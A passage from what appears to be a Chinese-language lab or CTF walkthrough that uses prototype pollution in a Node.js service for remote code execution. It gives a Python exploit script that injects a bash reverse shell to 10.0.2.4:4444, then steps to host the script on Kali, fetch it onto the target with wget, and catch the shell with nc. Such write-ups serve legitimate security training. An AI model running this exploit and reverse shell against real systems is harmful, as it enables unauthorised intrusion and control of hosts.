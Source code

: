 根据ip修改EXP

```
vi exp.py
```

![image-20211104101833596](https://gitee.com/byesec/picture/raw/master//target/Week3//image-20211104101833596.png)

>import requests
>
>cmd = 'bash -c "bash -i &> /dev/tcp/10.0.2.4/4444 0>&1"'
>
>#pollute
>
>requests.post('http://127.0.0.1:8080', files = {'__proto__.outputFunctionName': (
>    None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})
>
>#execute command
>
>requests.get('http://127.0.0.1:8080')

已将exp写在本地，需将该exp.py上传至目标端

kali：

```
python3 -m http.server 80
```

![image-20211104102630662](https://gitee.com/byesec/picture/raw/master//target/Week3//image-20211104102630662.png)

shell：

```
cd /tmp   #易向里写文件
```

```
pwd
```

```
ls
```

```
wget http://10.0.2.4/exp.py
```

```
ls
```

![image-20211104102839677](https://gitee.com/byesec/picture/raw/master//target/Week3//image-20211104102839677.png)

exp.py上传成功

kali:

```
nc -nvlp 4444
```
